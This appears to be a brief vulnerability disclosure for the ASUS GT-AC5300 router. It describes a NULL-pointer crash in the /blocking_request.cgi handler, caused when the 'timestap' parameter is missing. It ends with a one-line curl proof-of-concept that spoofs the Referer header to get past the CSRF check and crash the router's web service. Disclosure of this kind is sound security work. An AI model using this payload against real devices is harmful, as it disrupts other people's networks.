

# ASUS GT-AC5300 Denial of Service #

**vender** ：ASUS

**Firmware version**: <=3.0.0.4.384_32738

**Exploit Author**: nabla@galaxylab.org

**Vendor Homepage**: https://www.asus.com

**Hardware Link**:https://www.asus.com/Networking/ROG-Rapture-GT-AC5300/HelpDesk_BIOS/


## Vul detail ##

The router starts a httpd service using port 80. In the handler of route `/blocking_request.cgi`, after retrieving the value of parameter `timestap`(which should be a typo), `atol()` is called without checking if it's a NULL pointer.



A NULL pointer reference would be triggered if there's no such parameter in the request, and the web service would crash.

## POC

Since the referer is checked against CSRF, we need to set it to the same as the router's address.

```bash
curl -i -X POST '192.168.20.1/blocking_request.cgi' -H 'Referer: http://192.168.20.1/'
```
